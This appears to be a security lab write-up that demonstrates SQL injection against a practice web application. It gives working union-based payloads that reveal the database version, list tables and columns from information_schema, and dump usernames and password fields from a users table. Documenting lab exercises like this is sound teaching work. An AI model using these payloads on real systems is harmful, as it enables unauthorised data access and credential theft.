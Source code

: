 # 2. SQL Injection

## 2.1. Basic Injection

When we change the ID parameter of the URL, it does the same thing as when we use the input field, the submission is done and we have the result

## 2.2. Always true scenario

When we put the following command in the field : 

```
%' or 0=0 union select null, version() #
```

The query is executed and the following result is obtained:

<img title="version of the database" alt="version of the database" src="/src/2.2_new.png">

We conclude that the database version is 10.1.26 of MariaDB

## 2.3 Exercises

### 1. Print the database user

To be able to select the important information of the users, we follow the following steps: 

- Look at the names of the tables to identify the users

To see the tables, we used the following command

```
%' or 0=0 union select table_name, null from information_schema.tables #"
```

the following result is obtained:

<img title="tables of the database" alt="ables of the database" src="/src/2.3.1_0.png">

So the name of the users table is users.
There are other tables of course but we just stopped the capture at this level for readability reasons 

- Identify important columns

We used the following command to find the columns of the users table.

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' 
```

Here is the result

<img title="Columns of the users table" alt="Columns of the users table" src="/src/2.3.1_1.png">

We see on this picture all the columns (highlighted in yellow) of the table.

- Select user data on the fields we are interested in 

We have chosen to retrieve the following fields: user_id, user, first_name, last_name, last_login, password.

Here is the query used 

```
%' or 0=0 union select 'user_id|user|first_name|last_name|last_login|password)', concat(user_id,'|',user, '|', first_name, '|', last_name, '|', last_login, '|', password) from users #
```

And here is the result

<img title="Retrieve of columns" alt="Retrieve of columns" src="/src/2.3.1_2.png">

The value of the First Name field displayed is just to help us find the value of the Surname field
